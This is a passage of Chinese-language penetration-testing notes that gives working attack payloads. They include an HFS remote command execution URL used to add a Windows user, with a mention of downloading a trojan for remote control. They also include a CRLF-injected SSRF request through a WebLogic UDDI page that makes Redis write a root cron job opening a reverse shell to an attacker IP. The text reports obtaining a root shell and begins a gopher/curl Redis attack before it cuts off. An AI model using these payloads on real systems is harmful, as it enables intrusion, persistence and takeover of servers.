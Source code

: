  发现该主机搭载了HFS。搜索HFS相关漏洞，发现https://blog.csdn.net/qq_45884775/article/details/124065484，存在RCE命令执行漏洞。payload为`http://127.0.0.1:8080/?search==%00{.exec|cmd.exe /c [Command-String].}`。

  所以可以实施攻击，比如`http://192.168.64.144:8080/?search==%00{.exec|cmd.exe /c net user test1234 1234 /add.}`添加用户。或者下载远程文件（下载木马），实施远控。

- **绕过安全防御**：比如防火墙、CDN

## SSRF getshell

### 利用Redis未授权访问getshell

https://blog.csdn.net/weixin_39194641/article/details/102605354

https://blog.csdn.net/u012206617/article/details/108941738

利用redis写入定时反弹shell任务，用到了CRLF漏洞，url如下：

```
编码前：
http://192.168.31.78:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business location&btnSubmit=Search&operator=http://192.168.221.134:54675/

set x "\n*/1 * * * * bash -i >& /dev/tcp/192.168.221.129/55555 0>&1\n\n\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save

aaa
编码后：
http://192.168.221.134:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://192.168.221.134:54675/%0D%0A%0D%0Aset%20x%20%22%5cn*%2f1+*+*+*+*+bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.221.129%2f55555+0%3e%261%5cn%22%0D%0Aconfig%20set%20dir%20%2Fvar%2Fspool%2Fcron%2F%0D%0Aconfig%20set%20dbfilename%20root%0D%0Asave%0D%0A%0D%0Aaaa
```

本机监听并发送payload如下：

![image-20220926164339964](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220926164339964.png)

netcat监听，得到了root权限的shell：

![image-20220926164442899](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220926164442899.png)

### 通过curl命令和gopher协议远程攻击内网redis

使用gopher协议可以用来发送各种格式的请求包。

gopher协议可配合linux下的curl命令伪造POST请求包发给内网主机。

此种方法能攻击成功的前提条件是：redis是以root权限运行的。

payload如下：
